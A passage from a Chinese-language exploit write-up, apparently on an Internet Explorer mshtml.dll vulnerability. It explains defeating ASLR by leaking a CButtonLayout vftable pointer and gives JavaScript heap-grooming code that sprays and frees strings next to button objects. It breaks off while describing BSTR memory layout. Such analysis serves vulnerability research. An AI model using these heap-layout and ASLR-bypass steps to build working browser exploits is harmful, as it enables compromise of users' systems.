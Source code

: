 ```html
</script>
</body>
</html>
```



### 5. 利用详解

#### 绕过ASLR

读取**mshtml!CButtonLayout对象的vftable值**可以计算出mshtml.dll模块的基地址，因为该值位于此模块中的固定偏移处，所以可被利用以绕过ASLR，计算出mshtml模块的加载基址（类似Glibc中的main arean的地址）。

最开始需要对堆空间进行布局，关键代码如下：

```javascript
//初始化布局的字符串变量
var free = "EEEE";
while ( free.length < 500 ) free += free;
var string1 = "AAAA";
while ( string1.length < 500 ) string1 += string1;
var string2 = "BBBB";
while ( string2.length < 500 ) string2 += string2;

var fr = new Array();
var al = new Array();
var bl = new Array();
var div_container = document.getElementById("evil");
div_container.style.cssText = "display:none";

//接着按字符串E、字符串A、字符串B、CButtonLayout对象进行堆空间布局
for (var i=0; i < 500; i+=2) {
    fr[i] = free.substring(0, (0x100-6)/2);
    al[i] = string1.substring(0, (0x100-6)/2);
    bl[i] = string2.substring(0, (0x100-6)/2);
    var obj = document.createElement("button");
    div_container.appendChild(obj);
}

//释放布局后字符串E对应的堆空间
for (var i=200; i<500; i+=2 ) {
    fr[i] = null;
    CollectGarbage();
}
```

上述代码中的字符串将会分配到堆空间中，并且被转换为BSTR对象（COM）：此对象包含头部和尾部，字符以UNICODE存储，头部4个字节表示字符串长度，尾部2个字节表示结束。比如执行一次下述代码：

```javascript
al[i] = string1.substring(0, (0x100 - 6)/2);
```

与其对应的内存结构就应该如下
